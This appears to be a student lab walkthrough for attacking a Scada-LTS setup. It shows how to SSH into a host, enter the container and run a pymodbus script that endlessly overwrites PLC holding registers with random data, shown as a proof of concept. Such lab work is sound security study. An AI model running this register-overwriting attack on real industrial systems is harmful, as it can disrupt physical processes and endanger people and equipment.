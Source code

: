 # Change modbus registers
Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

Run the code. There is no `nano` or `vim` but we can use `echo` to write to a file.
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

The registers should now star being overwritten with random data.

![](img/random_modbus.png)

![](img/scada_poc1.jpg)

![](img/scada_poc2.jpg)
